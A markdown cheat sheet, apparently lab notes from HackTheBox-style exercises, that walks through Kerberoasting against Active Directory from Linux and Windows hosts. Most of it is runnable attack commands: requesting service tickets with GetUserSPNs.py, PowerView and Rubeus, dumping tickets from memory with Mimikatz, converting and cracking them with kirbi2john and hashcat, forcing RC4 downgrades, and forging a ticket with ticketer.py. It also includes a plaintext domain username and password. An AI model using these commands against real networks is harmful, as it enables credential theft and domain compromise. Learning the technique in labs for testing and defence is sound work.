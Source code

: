 # Kerberoasting - Performing the Attack

Depending on your position in a network, this attack can be performed in multiple ways:

    - From a non-domain joined Linux host using valid domain user credentials.
    - From a domain-joined Linux host as root after retrieving the keytab file.
    - From a domain-joined Windows host authenticated as a domain user.
    - From a domain-joined Windows host with a shell in the context of a domain account.
    - As SYSTEM on a domain-joined Windows host.
    - From a non-domain joined Windows host using runas /netonly.


# From Linux

## GetUserSPNs.py

### Listing SPN Accounts with GetUserSPNs.py
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

### Requesting all TGS Tickets
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request
```

### Requesting a Single TGS ticket
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

#### use the RC4-HMAC Key to get ccache
example: $krb5tgs$23$*management_svc$CERTIFIED.HTB$certified.htb/management_svc*$3ec6d2d73c42a4666917369a3a0181a7$...

Between the two dollars sign.

```bash
python ticketer.py -nthash 3ec6d2d73c42a4666917369a3a0181a7 -domain CERTIFIED.HTB -user management_svc -spn certified.htb/management_svc -target-domain CERTIFIED.HTB -dc-ip 192.168.1.10 -outfile ticket.kirbi

```


# From Windows

## Semi manual way.

### Enumerating SPNs with setspn.exe

```powershell
setspn.exe -Q */*
```

### Targeting a Single User
Next, using PowerShell, we can request TGS tickets for an account in the shell above and load them into memory. Once they are loaded into memory, we can extract them using Mimikatz. Let's try this by targeting a single user

```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-2
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:36:22 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
```

### Retrieving All Tickets Using setspn.exe

```powershell
setspn.exe -T HTB.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

### Extracting Tickets from Memory with Mimikatz

```powershell
.\mimikatz

mimikatz: base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz: kerberos::list /export 

```

### Preparing the Base64 Blob for Cracking

Next, we can take the base64 blob and remove new lines and white spaces since the output is column wrapped, and we need it all on one line for the next step.

```bash
echo "<base64 blob>" |  tr -d \\n | tee encoded_file
```

### Placing the Output into a File as .kirbi

```bash
cat encoded_file | base64 -d > sqldev.kirbi
```

### Extracting the Kerberos Ticket using kirbi2john.py
```bash
kirbi2john sqldev.kirbi | tee crack_file
```

### Modifiying crack_file for Hashcat

**Note**: the newer version of kirbi2john doesn't require that.

```bash
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

### Cracking the Hash with Hashcat
```bash
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

## Automated / Tool Based Route

### Using PowerView to Extract TGS Tickets

### Enumerate spn users
```powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```

### Using PowerView to Target a Specific User

```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\sqldev_tgs.csv -NoTypeInformation
```

### Exporting All Tickets to a CSV File

```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

### Way number 2

```powershell
$Password = ConvertTo-SecureString 'Ashare1972' -AsPlainText -Force
e$Cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\amanda', $Password)

Invoke-UserImpersonation -Credential $Cred
Invoke-Kerberoast
```


## Using Rubeus

Let's use Rubeus to request tickets for accounts with the admincount attribute set to 1. These would likely be high-value targets and worth our initial focus for offline cracking efforts with Hashcat. Be sure to specify the /nowrap flag so that the hash can be more easily copied down for offline cracking using Hashcat

```bash
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
.\Rubeus.exe kerberoast /user:adunn /nowrap
```
We can use Rubeus with the /tgtdeleg flag to specify that we want only RC4 encryption when requesting a new service ticket. The tool does this by specifying RC4 encryption as the only algorithm we support in the body of the TGS request. This may be a failsafe built-in to Active Directory for backward compatibility. By using this flag, we can request an RC4 (type 23) encrypted ticket that can be cracked much faster.

```
Note: This does not work against a Windows Server 2019 Domain Controller, regardless of the domain functional level. It will always return a service ticket encrypted with the highest level of encryption supported by the target account. This being said, if we find ourselves in a domain with Domain Controllers running on Server 2016 or earlier (which is quite common), enabling AES will not partially mitigate Kerberoasting by only returning AES encrypted tickets, which are much more difficult to crack, but rather will allow an attacker to request an RC4 encrypted service ticket. In Windows Server 2019 DCs, enabling AES encryption on an SPN account will result in us receiving an AES-256 (type 18) service ticket, which is substantially more difficult (but not impossible) to crack, especially if a relatively weak dictionary password is in use. 
```

# Double Hop Issue
https://posts.slayerlabs.com/double-hop/
